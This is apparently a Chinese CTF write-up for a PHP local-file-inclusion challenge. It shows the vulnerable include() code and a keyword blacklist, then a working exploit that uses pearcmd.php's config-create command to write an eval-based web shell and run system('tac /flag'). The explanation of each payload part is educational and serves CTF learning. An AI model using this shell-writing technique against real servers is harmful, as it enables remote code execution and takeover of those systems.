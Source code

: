 ### Include 🍐

---

```php
<?php
    error_reporting(0);
    if(isset($_GET['file'])) {
        $file = $_GET['file'];
        if(preg_match('/flag|log|session|filter|input|data/i', $file)) {
            die('hacker!');
        }
        include($file.".php");
        # Something in phpinfo.php!
    }
    else {
        highlight_file(__FILE__);
    }
?>
```

提示需要查看一下phpinfo，直接传入参数  `?file=phpinfo`

![image-20240910215821991](https://gitee.com/bx33661/image/raw/master/path/image-20240910215821991.png)

看到这里其实我没有什么思路，看了wp之后发现可以使用`pear.php`这个思路，

*register_argc_argv* 这个还有题目名字就是最典型的提示

> pear全称PHP Extension and Application Repository，php扩展和应用仓库，在docker中默认安装，路径为/user/local/lib/php.
>
> 前提需要：
> - 安装了pear（这样才能有pearcmd.php）
- 开启了`register_argc_argv`
- 存在文件包含且可以包含后缀为php的文件且没有`open_basedir`的限制。

```php
?+config-create+/&file=/usr/local/lib/php/pearcmd&/<?=@eval($_POST['cmd']);?>+shel.php
    
//由于$_SERVER['argv']变量会将URL的?后面的值都传入pear当作参数，所以此处file需要调换一下位置，并且在适当位置加上/和空格的url编码
```

- `?+config-create+/`

> pear工具里有一个命令叫:config-create,这个命令需要传入两个参数，其中第二个参数是写入的文件路径，第一个参数会被写入到这个文件中。


- `&file=/usr/local/lib/php/pearcmd&/<?=@eval($_POST['cmd']);?>`

第一个参数写入

- `shel.php`

第二个参数是写入路径

![image-20240910222612381](https://gitee.com/bx33661/image/raw/master/path/image-20240910222612381.png)

利用POST传参数

```php
cmd=system('tac /flag');
```

![image-20240910222457517](https://gitee.com/bx33661/image/raw/master/path/image-20240910222457517.png)

得到flag



### pear.php补充
首先是这个参数`$_SERVER['argv']`
```php
<?php  
var_dump($_SERVER['argv']);
//首先是这个参数$_SERVER['argv']
```
通过+作为分隔符：
![image-20240910225036767](https://gitee.com/bx33661/image/raw/master/path/image-20240910225036767.png)

### 参考文档

https://juejin.cn/post/7147638903191814180
https://blog.csdn.net/rfrder/article/details/121042290